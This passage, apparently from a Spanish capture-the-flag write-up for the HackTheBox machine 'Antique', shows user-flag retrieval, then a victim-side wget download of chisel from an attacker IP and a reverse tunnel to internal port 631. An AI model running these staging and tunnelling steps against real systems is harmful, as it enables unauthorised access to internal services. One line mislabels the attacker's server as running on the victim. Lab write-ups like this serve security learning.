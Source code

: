 Y ya podríamos leer la flag de usuario
```shell
lp@antique:~$ cat user.txt
cat user.txt
1639908b7ad1cd...
```

# Privilege Escalation
Después de enumerar un rato el sistema.

```shell
lp@antique:~$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1163/python3        
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -         
```

Vemos un puerto interno 631.

Vamos con `chisel` a hacer Reverse Port Forwarding

Nos lo compartimos creando un servidor web temporal con `python3`
```shell
$ python3 -m http.server 8081
```

Y nos lo descargamos en la máquina víctima con `wget`
```shell
lp@antique:/tmp$ wget http://10.10.14.18:8081/chisel
```

En la máquina víctima nos ponemos en escucha por el puerto 1234.
```shell
$ sudo ./chisel server --reverse -p 1234
```
**Importante ejecutar con `sudo` ya que se va a usar un puerto inferior a 1024.**

Ahora en la máquina víctima..
```shell
./chisel client 10.10.14.18:1234 R:631:127.0.0.1:631
```

Y ahora nuestro puerto local 631 es el puerto 631 de la máquina víctima.
```shell
$ sudo ./chisel server --reverse -p 1234
2024/08/05 23:47:39 server: Reverse tunnelling enabled
2024/08/05 23:47:39 server: Fingerprint NlttnPRHpMQoAwbRWuNr/L0LOxmCqUuczmy3ifi7RMU=
2024/08/05 23:47:39 server: Listening on http://0.0.0.0:1234
2024/08/05 23:47:40 server: session#1: tun: proxy#R:631=>631: Listening
```
